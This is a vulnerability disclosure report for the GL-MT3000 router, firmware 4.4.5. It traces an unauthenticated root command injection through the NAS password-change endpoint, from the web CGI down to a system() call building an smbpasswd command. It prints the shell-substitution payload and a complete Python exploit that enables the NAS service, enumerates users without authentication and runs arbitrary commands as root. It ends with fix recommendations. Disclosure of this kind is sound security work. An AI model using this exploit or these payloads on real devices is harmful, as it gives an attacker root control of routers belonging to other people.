





Submission Date: 2026.5.12
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint of the affected product. The `nas-web.so` plugin forwards the `set_user_pwd` JSON request via libcurl HTTP POST to the local `gl_nas_sys` root daemon. The `gl_nas_sys` SET_USER_PWD handler (route 0x65, `FUN_0043db80`) extracts the `password` parameter and passes it through `FUN_0042e200` → `FUN_0042e0b0` → `FUN_0042d340`, which constructs a shell command via `snprintf(cmd, 0x100, "printf \"%s\\n%s\\n\" | smbpasswd -a -s %s", password, password, name)` followed by `system(cmd)`. Because the `password` value is placed inside double quotes, shell command substitution (`$()` and backticks) is still expanded by `/bin/sh -c`, allowing an attacker to execute arbitrary commands as root without requiring any quote-escaping.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc
     {"object":"nas-web", "method":"set_user_pwd",
      "args":{"name":"<existing_nas_user>",
              "password":"Aa1!$(<cmd>>/tmp/out 2>&1)#"}}

  -> /www/cgi-bin/glc
       json_unpack_ex → dlopen("nas-web.so") → dlsym("set_user_pwd")
       // NO authentication — any exported symbol is callable

  -> nas-web.so::set_user_pwd(args, result)
       json_str = json_dumps(args)   // password serialized as-is
       curl_post_manage_post(127.0.0.1, <port>,
           "/NAS_API_SET_USER_PWD", json_str)
       // transparent proxy — no parameter validation

  -> gl_nas_sys (root HTTP daemon)
       URI → route lookup → route_id = 0x65
       FUN_00440190 case 0x65: FUN_0043db80(srv, con, p_d)

  -> FUN_0043db80: extract name / password from request
       FUN_00431190(name, password)     // update password in DB
       FUN_0042e200(name, 0, password)  // sync to Samba

  -> FUN_0042e200(name, old_pwd=0, password):
       FUN_00422b30(name, &buf)         // lookup user → must exist
       FUN_00418870(&buf, password)     // compare old vs new → "changed"
       FUN_0042e0b0(name, password)

  -> FUN_0042e0b0(name, password):
       FUN_0042ca90(name, ...)          // verify user exists → ✓
       FUN_0042d340(name, password)     // build smbpasswd command

  -> FUN_0042d340(name, password):
       snprintf(cmd, 0x100,
           "printf \"%s\n%s\n\" | smbpasswd -a -s %s",
           password, password, name);
       system(cmd);                     // 💣 /bin/sh -c

  -> /bin/sh -c:
       printf "Aa1!$(id>/tmp/poc)\nAa1!$(id>/tmp/poc)\n" | smbpasswd -a -s root
       //           ↑ $() inside double quotes still expands!
       // $(id>/tmp/poc) executes BEFORE printf → RCE as root
```

The entry point `/www/cgi-bin/glc` loads plugins with no authentication:



```c
// glc main() — no auth, no method allowlist
json_unpack_ex(body, "{s:s,s:s,s?o}",
    "object", &object,   // "nas-web"
    "method", &method,   // "set_user_pwd"
    "args",   &args);    // {"name":"root","password":"Aa1!$(...)"}

snprintf(path, 0x80, "%s/%s.so", "/usr/lib/oui-httpd/rpc", object);
handle = dlopen(path, RTLD_NOW);
handler = dlsym(handle, method);
handler(args, result);                 // raw JSON args, no auth
```

The `nas-web.so` serializes and forwards the JSON without any content inspection:



```c
// nas-web.so::set_user_pwd (0x57bc)
json_str = json_dumps(args, 256);      // password $() preserved as-is
curl_post_manage_post(
    127.0.0.1,                         // localhost
    <gl_nas_sys_port>,
    "/NAS_API_SET_USER_PWD",           // route 0x65
    json_str);
```

The `gl_nas_sys` route dispatcher maps `/NAS_API_SET_USER_PWD` to case 0x65:

```c
// FUN_00440190 — route dispatcher
case 0x65: return FUN_0043db80(srv, con, p_d);
```

The `FUN_0043db80` handler extracts `name` and `password` from the request, then calls the password update flow:

```c
// FUN_0043db80 — SET_USER_PWD handler (route 0x65)
FUN_004373f0(con, "name",     &name_buf);     // extract "name"
FUN_004373f0(con, "password", &pwd_buf);      // extract "password"
// Both must be non-null → passes

FUN_00431190(name, password);                  // update DB
FUN_0042e200(name, 0, password);               // sync to Samba (old_pwd=0)
```

The Samba sync function `FUN_0042d340` is the sink — it places `password` inside double quotes where `$()` still executes:





```c
// FUN_0042d340(name, password) @ 0x42d3c0
snprintf(cmd, 0x100,
    "printf \"%s\n%s\n\" | smbpasswd -a -s %s",
    password,     // ← user-controlled, inside double quotes
    password,     // ← appears twice
    name);

system(cmd);     // /bin/sh -c → $() expands!
```

The format string at `0x476940`: `"printf \"%s\\n%s\\n\" | smbpasswd -a -s %s"`

**Validation bypass analysis:**

| Check | Present? | Bypass |
|-------|----------|--------|
| HTTP authentication | ❌ None | `/cgi-bin/glc` has zero auth |
| gl_nas_sys running | ✅ Required | `set_nas_ser({enable:1})` + `start()` — unauthenticated |
| NAS user exists | ✅ Required | `get_user_list` leaks all usernames — unauthenticated |
| Old password verification | ❌ None | `old_pwd=0` skips comparison entirely |
| Password format/strength | ❌ None | Any characters accepted, including `$()` `;` `` ` `` |
| Shell metacharacter filter | ❌ None | No sanitization anywhere in the chain |

The `$()` injection mechanism:

```text
Normal:  password = "SafePwd123!"
         cmd = printf "SafePwd123!\nSafePwd123!\n" | smbpasswd -a -s root
         ✅ password is literal text

Exploit: password = "Aa1!$(id>/tmp/poc)#"
         cmd = printf "Aa1!$(id>/tmp/poc)#\nAa1!$(id>/tmp/poc)#\n" | smbpasswd -a -s root

         /bin/sh -c execution order:
         1. Parse double-quoted string — $(id>/tmp/poc) found
         2. Execute command substitution FIRST: id > /tmp/poc
         3. Substitute empty stdout → password becomes "Aa1!#"
         4. Execute printf + smbpasswd with substituted value
         → 💣 RCE before smbpasswd even runs
```

The exploitation is shown below.



```python
import json, shlex, ssl, sys, time, urllib.request

TARGET   = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD      = sys.argv[2] if len(sys.argv) > 2 else "id"
NAS_USER = sys.argv[3] if len(sys.argv) > 3 else ""
OUT      = sys.argv[4] if len(sys.argv) > 4 else "/tmp/poc25_nas_setpwd"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE


def glc(method, args):
    body = {"object": "nas-web", "method": method, "args": args}
    req = urllib.request.Request(
        TARGET.rstrip("/") + "/cgi-bin/glc",
        data=json.dumps(body).encode(),
        headers={"Content-Type": "application/json"},
        method="POST",
    )
    resp = urllib.request.urlopen(req, timeout=10, context=ctx)
    return "%d %s" % (resp.status, resp.read().decode(errors="replace"))


def parse_glc_json(raw):
    parts = raw.split(" ", 2)
    if len(parts) < 3:
        return {}
    return json.loads(parts[2] or "{}")


try:
    print("[+] start nas service")
    print("[+] set_nas_ser:", glc("set_nas_ser", {"enable": 1})[:200])
    print("[+] start      :", glc("start", {})[:200])
    time.sleep(2)

    if not NAS_USER:
        users = parse_glc_json(glc("get_user_list", {})).get("list", [])
        print("[+] NAS users:", [u["name"] for u in users])
        if not users:
            print("[-] no NAS user found, pass one as argv[3]")
            sys.exit(1)
        NAS_USER = users[-1]["name"]

    command = "sh -c %s>%s 2>&1" % (shlex.quote(CMD), shlex.quote(OUT))
    nonce = str(time.time_ns())[-8:]
    password = "Aa1!$(%s)%s" % (command, nonce)

    print("[+] target  :", TARGET)
    print("[+] nonce   :", nonce)
    print("[+] user    :", NAS_USER)
    print("[+] command :", CMD)
    print("[+] output  :", OUT)
    print("[+] payload :", password)

    raw = glc("set_user_pwd", {"name": NAS_USER, "password": password})
    print("[+] response:", raw[:200])

except Exception as e:
    # gl_nas_sys sometimes returns HTTP 502 after the command has already run.
    print("[-] request failed: %s" % e)
    print("[!] HTTP failure does not necessarily mean exploit failed; check output file.")

print("[+] check: cat %s" % OUT)


```

**Fix recommendations:**

| Priority | Component | Action |
|----------|-----------|--------|
| P0 | `gl_nas_sys` FUN_0042d340 | Replace `system()` with `fork()`/`execv()` of `/usr/bin/smbpasswd`, feeding password via pipe to stdin |
| P0 | `gl_nas_sys` FUN_0042d340 | If `system()` must remain, reject password containing `$` `` ` `` `"` `\` `;` `\|` `\n` |
| P0 | `/www/cgi-bin/glc` | Add authentication and method allowlist |
| P1 | `nas-web.so` | Validate `password` character set before forwarding |
